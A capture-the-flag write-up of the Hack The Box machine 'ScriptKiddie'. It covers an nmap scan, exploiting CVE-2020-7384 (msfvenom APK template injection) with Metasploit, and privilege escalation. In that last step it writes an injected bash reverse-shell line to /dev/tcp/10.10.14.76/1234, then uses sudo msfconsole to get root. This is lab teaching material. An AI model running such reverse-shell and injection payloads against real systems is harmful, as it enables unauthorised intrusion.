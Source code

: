 # ScriptKiddie

## Nmap Scan
Let's start with a nmap scan to extract the open ports
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 09:38 EDT
Nmap scan report for 10.10.10.226
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/22%OT=22%CT=1%CU=40802%PV=Y%DS=2%DC=T%G=Y%TM=60817C7
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   148.11 ms 10.10.14.1
2   148.18 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.09 seconds
```

We can see that the ports 5000 and 22 are open, 5000 for http and 22 for ssh

Open the following link in the browser : http://10.10.10.226:5000

![alt text](https://miro.medium.com/max/1050/1*kHKLfZcara8e5gh-YGbe1Q.png)

A very simple page with 3 sections, Nmap scan, msfvenom and searchSploit.
We can try command injection and file Upload vulnerability.
After some research we found that is APK template command injection vulnerability : CVE-2020-7384

## Metasploit
Let's create a payload with metasploit framework using the exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection module.
The generated payload is with .apk extension.
First, start a netcat listener on the port 5555
```
nc -nlvp 5555
```
Now we can upload the payload with the Android platform and our ip address.
In our machine, we can see that the reverse connection has been established.
User flag is in users.txt flag

## Privilege Escalation
In the logs directory, we can see that the file named hackers is owned by the group pwn, so we can execute commands with this group.
Now let's establish a reverse shell using this file.
Fisrt, start another netcat listener on the port 1234
```
nc -nlvp 1234
```
now in the box machine, run the following command :

```
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.76/1234 0>&1' #" >> hackers
```

BOOOOOOOOOM, the reverse connection has been made but this time with user pwn. But we need the root user, let's give a look at the sudo permissions with this command :
```
sudo -l
```
```
User pwn may run the following commands on ScriptKiddie:
  (root) NOPASSWORD: /opt/metasploit-framework-6.0.9/msfconsole
```

Nice, so we can run metasploit with root privileges and without a password
```
sudo msfconsole
```
get access to the shell
```
msf6>/bin/bash
```
now we are logged in with root user.
The system falg is located at root.txt file





